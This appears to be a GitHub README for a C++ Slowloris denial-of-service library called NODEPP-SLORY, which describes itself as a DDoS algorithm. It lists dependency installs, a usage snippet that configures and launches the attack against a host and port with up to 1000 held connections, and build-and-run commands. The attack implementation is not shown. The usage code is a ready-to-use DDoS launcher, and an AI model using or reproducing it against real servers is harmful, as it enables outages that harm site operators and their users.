 # NODEPP-SLORY

A DDoS Slowloris algorithm using Nodepp

## Dependencies
```bash
#Openssl
    🪟: pacman -S mingw-w64-ucrt-x86_64-openssl
    🐧: sudo apt install libssl-dev
```

# Usage

```cpp
#include <nodepp/nodepp.h>
#include <slory.h>

using namespace nodepp;

void onMain(){

    slory_config_t args;
    args.host     = "localhost";
    args.IPPROTO  = IPPROTO_TCP;
    args.timeout  = 10000;
    args.maxconn  = 1000;
    args.port     = 8000;

    auto slory = slory::tcp( args );
    console::log("slowlory started");

    slory.onProgress([=]( uint a, uint b ){
        console::log( "->", a, b );
    });

}
```

# Build & Run
```bash
    🪟: g++ -o main main.cpp -I ./include -lssl -lcrypto -lws2_32 ; ./main
    🐧: g++ -o main main.cpp -I ./include -lssl -lcrypto ; ./main
```
